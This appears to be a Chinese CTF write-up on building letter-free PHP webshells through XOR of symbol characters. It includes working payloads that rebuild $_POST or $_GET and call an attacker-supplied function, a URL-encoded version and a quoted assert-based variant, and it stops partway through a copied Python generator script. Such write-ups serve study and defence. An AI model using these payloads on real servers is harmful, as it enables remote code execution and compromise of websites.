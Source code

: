 分析一下：

* $_++ ：对变量名为_的变量进行自增操作，在PHP中未定义的变量默认值为Null,null==false==0,因此可以在不使用任何数字的情况下,通过对未定义变量的自增操作来得到一个数字。
* 异或操作，`#^|` , # 二进制为 00100011 ，| 二进制为 01111100 ，异或之后就变成了 01011111 ，变为ascii 就是 95 ，也就是下划线，其他类似。

开始构造payload

```
?shell=
@$_++;
$__=("#"^"|");
$__.=("."^"~");
$__.=("/"^"`");
$__.=("|"^"/");
$__.=("{"^"/");
${$__}[!$_](${$__}[$_]);
```

因为含有特殊字符，所以需要进行url编码才可以正常使用

	?shell=%40%24_%2b%2b%3b%0a%20%20%20%24__%3d(%22%23%22%5e%22%7c%22)%3b%0a%20%20%20%24__.%3d(%22.%22%5e%22~%22)%3b%0a%20%20%20%24__.%3d(%22%2f%22%5e%22%60%22)%3b%0a%20%20%20%24__.%3d(%22%7c%22%5e%22%2f%22)%3b%0a%20%20%20%24__.%3d(%22%7b%22%5e%22%2f%22)%3b%0a%20%20%20%24%7b%24__%7d%5b!%24_%5d(%24%7b%24__%7d%5b%24_%5d)%3b

![wCODQ1.png](https://s1.ax1x.com/2020/09/03/wCODQ1.png)

ph师傅的也是同样的原理：

```
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);

```

但是这种exp代码过长，如果限制了长度就就很尴尬了。但如果题目条件限制只能使用异或这种方法来构造webshell，也是可以缩短长度的，可以让字符一起异或使用

```
<?php
var_dump("#./|{"^"|~`//"); //_POST
var_dump("`{{{"^"?<>/"); //_GET
```

其实原理都一样，按照顺序进行异或，从而得到相应的字符,就拿GET来说，可以组成下面的payload

```
$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
// $_GET[_]($_GET[__])
```

![wCzn8e.png](https://s1.ax1x.com/2020/09/03/wCzn8e.png)

这里从网上找到一个异或脚本：

```
#来源: 国光
#文章作者: 国光
#文章链接: https://www.sqlsec.com/2020/07/shell.html#toc-heading-24
#咳咳又想白嫖文章？本文章著作权归作者所有，任何形式的转载都请注明出处。
 
import string 
from urllib.parse import quote 
keys = list(range(65)) + list(range(91,97)) + list(range(123,127)) 
results = [] 
for i in keys: 
    for j in keys: 
        asscii_number = i^j 
```